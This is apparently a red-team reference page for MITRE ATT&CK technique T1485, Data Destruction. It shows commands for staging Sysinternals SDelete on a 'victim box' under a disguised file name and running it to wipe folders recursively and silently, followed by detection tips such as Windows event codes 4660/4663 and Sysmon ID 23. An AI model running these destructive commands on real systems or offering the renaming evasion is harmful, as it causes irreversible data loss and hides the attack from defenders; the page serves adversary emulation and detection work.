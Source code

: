 # [Data Destruction](https://attack.mitre.org/techniques/T1485/)

## **Exploit syntax:**

1. Stage sysinternals `SDelete` on the victim box
	```powershell 
	upload-file
	```
	> **NOTE:** Upload `SDelete` with a diffrent file name for obfuscation
2. Use `SDelete` to remove any files
	```powershell
	sharpps <location of staged file on box> <location of file to be deleted/file to be deleted> -s -q -p 5
	# Deletes folders and all subdirectories(-s), suppresses any error messages(-q), runs operation in 5 phases(-p #) 
	```

---

## **Detection Technique:**
* Use windows event codes that have to do with file manipulation/deletion
	* 4660 and 4663
* Monitor commands for usage of sysinternals "sdelete"
* Monitor for sysmon ID 23

---
## **Resouces:** 
* https://docs.microsoft.com/en-us/sysinternals/downloads/sdelete
* https://www.ghacks.net/2017/11/14/delete-files-and-free-disk-space-securely-with-sdelete/
